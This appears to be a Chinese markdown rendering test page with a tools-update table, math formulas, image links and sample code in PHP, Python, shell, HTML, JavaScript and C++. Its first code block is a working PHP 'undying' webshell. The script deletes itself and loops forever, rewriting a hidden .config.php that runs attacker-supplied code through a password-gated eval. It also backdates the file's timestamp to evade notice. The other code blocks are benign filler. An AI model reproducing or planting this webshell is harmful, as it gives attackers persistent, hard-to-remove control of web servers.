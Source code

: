 + 简单的不死马示例

  ```php
  <?php
      ignore_user_abort(true);
      set_time_limit(0);
      unlink(__FILE__);
      $file = '.config.php';
      $code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){<span class="label label-primary">@eval($_POST[a]);}</span> ?>';
      //pass=pass
      while (1){
          file_put_contents($file,$code);
          system('touch -m -d "2018-12-01 09:10:12" .config.php');
          usleep(5000);
      }
  ?>
  ```

	> 因为运行该 php 文件后，已经将该脚本读入并作为 opcode 进行运行
    > opcode 缓存



	### 表格测试

| 时间 | 项目名称 | 项目动态 | 其他 | 测试项1 | 测试项2 | 测试项3|
|----|-----------|--------------------------|--------|--------|--------|--------|
|2023-03-27|[**veinmind-tools**](detail/veinmind-tools.md)|更新 [v2.1.0](detail/veinmind-tools.md#最近更新) 版本|无|√|√|×|
|2023-03-21|[**pocsuite3**](detail/pocsuite3.md)|更新 [v2.0.3](detail/pocsuite3.md#最近更新) 版本|无|√|×|√|
|2023-03-12|[**CDK**](detail/CDK.md)|更新 [v1.5.2](detail/CDK.md#最近更新) 版本|无|√|√|×|
|2023-03-01|[**Antenna**](detail/Antenna.md)|更新 [v1.3.2](detail/Antenna.md#最近更新) 版本|无|√|×|√|
|2023-02-22|[**HaE**](detail/HaE.md)|更新 [v2.4.6](detail/HaE.md#最近更新) 版本|无|√|√|√|
|2023-02-15|[**GShark**](detail/gshark.md)|更新 [v1.1.4](detail/gshark.md#最近更新) 版本|无|√|√|√|
|2023-02-13|[**ENScanGo**](detail/ENScanGo.md)|更新 [v0.0.9](detail/ENScanGo.md#最近更新) 版本|无|√|×|√|
|2023-02-05|[**Viper**](detail/Viper.md)|更新 [v1.5.25](detail/Viper.md#最近更新) 版本|无|√|×|×|
|2023-02-04|[**afrog**](detail/afrog.md)|更新 [v2.2.1](detail/afrog.md#最近更新) 版本|无|√|×|√|
|2023-02-03|[**passive-scan-client**](detail/passive-scan-client.md)|更新 [v0.3.1](detail/passive-scan-client.md#最近更新) 版本|无|√|√|×|


数学公式测试
$$
\frac{1}{
  \Bigl(\sqrt{\phi \sqrt{5}}-\phi\Bigr) e^{
  \frac25 \pi}} = 1+\frac{e^{-2\pi}} {1+\frac{e^{-4\pi}} {
    1+\frac{e^{-6\pi}}
    {1+\frac{e^{-8\pi}}{1+\cdots}}
  }
}
$$

常见函数定义域如下

+ $y=\frac{a}{b}\Rightarrow(x\neq0)$
+ $y=\sqrt[2n]{x}\Rightarrow(x\geq0)$
+ $y=\sqrt[2n+1]{x}\quad\Rightarrow (x\in(-\infty,+\infty),x\in R)$
+ $y=\log_a{x}\Rightarrow(x>0)\quad$
+ $y=\tan{x}\Rightarrow(x \neq k\pi+\frac{\pi}{2})$
+ $y=\cot{x}\Rightarrow(x\neq k\pi)$
+ $y=\arctan{x},y=arccot{x}\Rightarrow(x\in R,x\in(-\infty,+\infty))$
+ $y=\arcsin{x},y=\arccos{x}\Rightarrow(x\in[-1,1])$


### 图片测试
1. 图片
   + 图片1
    ![](../static/img/code.png)

   + 图片2
    ![](../static/img/1683785041599.jpg)
### 不同代码块测试

```python
from flask import (
    Flask,
    render_template,
    url_for,
    redirect,
    session,
    request
)
from core.woker import WorkSpaceDataAllocate;
from core.basic import md5Enc_
from core.config import *;

import uuid;


template_folder = "../templates"
static_folder = "../static"

class ServerPanInfo:
    def __init__(self) -> None:
        self.key = str( uuid.uuid4() ).replace('-','');
        self.root = False;
```



```sh
#!/bin/bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH
LANG=en_US.UTF-8

CURL_CHECK=$(which curl)
if [ "$?" == "0" ];then
	curl -sS --connect-timeout 10 -m 10 https://www.bt.cn/api/wpanel/SetupCount > /dev/null 2>&1
else
	wget -O /dev/null -o /dev/null -T 5 https://www.bt.cn/api/wpanel/SetupCount
fi

if [ $(whoami) != "root" ];then
	echo "不是root权限"
	exit 1;
fi

cd ~
setup_path="/www"
python_bin=$setup_path/server/panel/pyenv/bin/python
cpu_cpunt=$(cat /proc/cpuinfo|grep processor|wc -l)
```



```html
<!DOCTYPE html>
<html lang="en" >
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="../static/js/jquery-3.6.3.min.js"></script>
    <script src="../static/js/popper.min.js"></script>
    <script src="../static/js/sweetalert.min.js"></script>
    <script src="../static/js/bootstrap_5.3/bootstrap.min.js"></script>
    <link rel="stylesheet" href="../static/css/bootstrap_5.3/bootstrap.min.css">
    <link rel="stylesheet" href="../static/css/index.css">

    <!-- ^hljs -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/highlight.js/styles/emacs.css" id="hljsCodeBlockColor">     <!--^ dark: native ;  light: emacs-->
    <script src="../static/Vditor3.9.0/dist/js/highlight.js/highlight.pack.js"></script>
    <script src="../static/js/highlight/highlightjs-line-numbers.min.js"></script>

    <!-- ^kateX.js -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/katex/katex.min.css">
    <script src="../static/Vditor3.9.0/dist/js/katex/katex.min.js"></script>

    <!-- ^Vditor/method.min.js -->
    <script src="../static/Vditor3.9.0/method.min.js"></script>

    <script src="../static/js/function.js"></script>
    <script src="../static/js/md2html.js"></script>
    <title>Document</title>
</head>
<body>
	Hello World!    
</body>
</html>
```



```js
Array.prototype.remove = function(...args){
    while(args.length > 1){
        this.remove(args.pop());
    }
    let index = this.indexOf(args[0]);
    while(index > -1){
        this.splice(index, 1);
        index = this.indexOf(args[0]);
    }
    return this; //注释
}
```



```cpp
#include "serialportthread.h"

serialportthread::serialportthread()
{
    moveToThread(this);
}

void serialportthread::run()
{
    PortSettings set = {BAUD115200,DATA_8,PAR_NONE,STOP_1,FLOW_OFF};
    myCom = new QextSerialPort("/dev/ttyUSB0",set);
    if(myCom->open(QIODevice::ReadWrite)){
        connect(myCom,SIGNAL(readyRead()),this,SLOT(onRead()));
        porthandle = new SerialPortReceive(this);
        connect(porthandle,SIGNAL(byteFinish(QByteArray)),this,SIGNAL(evt_serial_receive(QByteArray)));
        qDebug("ok");
    }else qDebug("no");
    this->exec();
}

void serialportthread::onRead()
{
    QByteArray ba =myCom->readAll();
    porthandle->dataHandle(ba);
}

void serialportthread::send(QByteArray ba)
{
    myCom->flush();
    myCom->write(ba);
}

void serialportthread::mysleep(int a)
{
    msleep(a);
}
```



```c++
#ifndef SERIALPORTTHREAD_H
#define SERIALPORTTHREAD_H

#include <QThread>
#include "./smarthome/qextserialport.h"
#include "./smarthome/serialportreceive.h"
class serialportthread : public QThread
{
    Q_OBJECT
public:
    explicit serialportthread();
    
signals:
    void evt_serial_receive(QByteArray);
private:
    QextSerialPort *myCom;
    SerialPortReceive *porthandle;
public slots:
    void run();
    void onRead();
    void send(QByteArray ba);
    void mysleep(int a);
};

#endif // SERIALPORTTHREAD_H
```

